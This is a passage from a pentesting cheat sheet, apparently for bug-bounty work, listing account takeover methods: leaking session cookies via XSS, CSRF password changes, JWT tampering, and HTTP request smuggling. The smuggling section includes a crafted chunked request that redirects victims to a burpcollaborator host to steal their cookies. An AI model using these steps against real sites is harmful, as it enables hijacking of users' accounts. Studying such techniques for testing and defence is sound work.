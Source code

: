 1. Find an XSS inside the application or a subdomain if the cookies are scoped to the parent domain : `*.domain.com`
2. Leak the current **sessions cookie**
3. Authenticate as the user using the cookie

### Account Takeover Via HTTP Request Smuggling <a href="#account-takeover-via-http-request-smuggling" id="account-takeover-via-http-request-smuggling"></a>

1\. Use **smuggler** to detect the type of HTTP Request Smuggling (CL, TE, CL.TE)\
`powershell git clone https://github.com/defparam/smuggler.git cd smuggler python3 smuggler.py -h`\
2\. Craft a request which will overwrite the `POST / HTTP/1.1` with the following data:\
`GET http://something.burpcollaborator.net HTTP/1.1 X:` with the goal of open redirect the victims to burpcollab and steal their cookies\
3\. Final request could look like the following

```
GET / HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83
0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```

Hackerone reports exploiting this bug\
\* [https://hackerone.com/reports/737140](https://hackerone.com/reports/737140)\
\* [https://hackerone.com/reports/771666](https://hackerone.com/reports/771666)

### Account Takeover via CSRF <a href="#account-takeover-via-csrf" id="account-takeover-via-csrf"></a>

1. Create a payload for the CSRF, e.g: “HTML form with auto submit for a password change”
2. Send the payload

### Account Takeover via JWT <a href="#account-takeover-via-jwt" id="account-takeover-via-jwt"></a>

JSON Web Token might be used to authenticate an user.

* Edit the JWT with another User ID / Email
* Check for weak JWT signature

{% content-ref url="hacking-jwt-json-web-tokens.md" %}
[hacking-jwt-json-web-tokens.md](hacking-jwt-json-web-tokens.md)
{% endcontent-ref %}

## References

* [https://salmonsec.com/cheatsheet/account\_takeover](https://salmonsec.com/cheatsheet/account\_takeover)
